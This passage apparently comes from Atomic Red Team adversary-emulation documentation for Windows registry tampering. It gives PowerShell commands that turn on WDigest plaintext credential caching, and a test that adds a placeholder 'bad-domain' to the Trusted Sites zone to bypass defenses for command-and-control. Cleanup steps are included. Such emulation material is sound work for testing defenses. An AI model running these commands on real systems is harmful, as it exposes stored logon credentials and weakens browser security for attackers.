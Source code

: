 

#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Set-ItemProperty -Force -Path  'HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest' -Name  'UseLogonCredential' -Value '1' -ErrorAction Ignore
```

#### Cleanup Commands:
```powershell
Set-ItemProperty -Force -Path  'HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest' -Name  'UseLogonCredential' -Value '0' -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #5 - Add domain to Trusted sites Zone
Attackers may add a domain to the trusted site zone to bypass defenses. Doing this enables attacks such as c2 over office365.
Upon execution, details of the new registry entries will be displayed.
Additionally, open Registry Editor to view the modified entry in HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Internet Settings\ZoneMap\.

https://www.blackhat.com/docs/us-17/wednesday/us-17-Dods-Infecting-The-Enterprise-Abusing-Office365-Powershell-For-Covert-C2.pdf

**Supported Platforms:** Windows


**auto_generated_guid:** cf447677-5a4e-4937-a82c-e47d254afd57





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| bad_domain | Domain to add to trusted site zone | string | bad-domain.com|


#### Attack Commands: Run with `powershell`! 


```powershell
$key= "HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Internet Settings\ZoneMap\Domains\#{bad_domain}\"
$name ="bad-subdomain"
new-item $key -Name $name -Force
new-itemproperty $key$name -Name https -Value 2 -Type DWORD;
new-itemproperty $key$name -Name http  -Value 2 -Type DWORD;
new-itemproperty $key$name -Name *     -Value 2 -Type DWORD;
```
